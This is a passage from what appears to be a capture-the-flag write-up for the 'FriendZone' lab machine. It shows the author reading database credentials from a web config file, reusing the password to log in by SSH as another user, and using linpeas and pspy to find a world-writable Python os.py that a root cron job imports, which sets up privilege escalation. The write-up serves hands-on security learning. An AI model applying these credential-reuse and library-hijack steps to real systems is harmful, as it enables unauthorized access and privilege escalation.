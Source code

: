 ```
www-data@FriendZone:/var/www$ ls
admin	    friendzoneportal	   html		    uploads
friendzone  friendzoneportaladmin  mysql_data.conf
www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```
same username as /home/friend, shall we try to ssh?
```console
└─$ ssh friend@friendzone.red        
friend@friendzone.red's password: 
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

You have mail.
Last login: Thu Jan 24 01:20:15 2019 from 10.10.14.3
friend@FriendZone:~$ id
uid=1000(friend) gid=1000(friend) groups=1000(friend),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
```
This user are in so many group...
```
friend@FriendZone:~$ sudo -l
[sudo] password for friend: 
Sorry, user friend may not run sudo on FriendZone.
```
nope didnt work

# root.
- linpeas.sh
```
[+] Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
.
.
/usr/lib/python2.7
/usr/lib/python2.7/os.py
/usr/lib/python2.7/os.pyc
.
```
- pspy
```
2020/11/12 21:16:01 CMD: UID=0    PID=17544  | /usr/bin/python /opt/server_admin/reporter.py 
2020/11/12 21:16:01 CMD: UID=0    PID=17543  | /bin/sh -c /opt/server_admin/reporter.py 
2020/11/12 21:16:01 CMD: UID=0    PID=17542  | /usr/sbin/CRON -f 
```
